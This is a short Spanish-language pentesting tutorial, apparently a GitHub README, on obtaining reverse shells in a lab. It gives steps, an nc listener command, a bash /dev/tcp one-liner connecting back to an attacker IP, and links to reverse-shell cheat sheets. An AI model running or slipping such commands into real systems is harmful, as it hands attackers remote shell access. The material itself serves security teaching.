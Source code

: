 ### Pasos

1. Determinar nuestra IP y la IP de la víctima.
2. Ponernos a la escucha en un puerto (listener) donde recibiremos la reverse shell.
3. Enviar y ejecutar la reverse shell.

### Ejemplo completo:

```
Nuestra IP   --> 172.17.0.1
IP víctima   --> 172.17.0.2
```

Ponemos a la escucha en el puerto 445:

```bash
nc -nvlp 445
```

Enviamos la reverse shell (por el medio que hayamos encontrado):

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

En el listener de `nc`, se establece la conexión interactiva.

---
<a name="recursos"></a>
## 🌐 Recursos para encontrar o generar reverse shells

- [Pentest Monkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [RevShells Online Generator](https://www.revshells.com/)

---
<a name="tips"></a>
## 🧠 Tips y buenas prácticas
<a name="uso"></a>
### ⚙️ Uso de `bash -c`

Si la reverse shell es en Bash, es recomendable utilizar:

```bash
bash -c "reverse shell"
```

Esto hace que el intérprete Bash ejecute una cadena de texto como si fuera un script o una serie de comandos.

- `bash` → invoca el intérprete de comandos Bash.
- `-c` → "execute commands from the following string" (ejecuta comandos desde la cadena que viene a continuación).
- `'...'` → la cadena de comandos que se desea ejecutar.
